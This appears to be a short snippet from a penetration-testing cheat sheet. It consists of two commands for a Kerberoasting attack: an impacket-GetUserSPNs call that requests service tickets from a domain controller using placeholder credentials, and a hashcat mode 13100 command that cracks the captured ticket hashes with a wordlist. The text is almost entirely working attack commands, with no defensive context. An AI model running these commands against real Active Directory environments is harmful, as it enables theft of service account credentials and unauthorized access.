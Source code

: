 Run the following impacket command
```Shell
impacket-GetUserSPNs domain.local/user:pass -dc-ip 1.2.3.4 -request
```

Crack the hash using the following command
```Shell
hashcat -a 0 -m 13100 hash.txt Pass.txt
```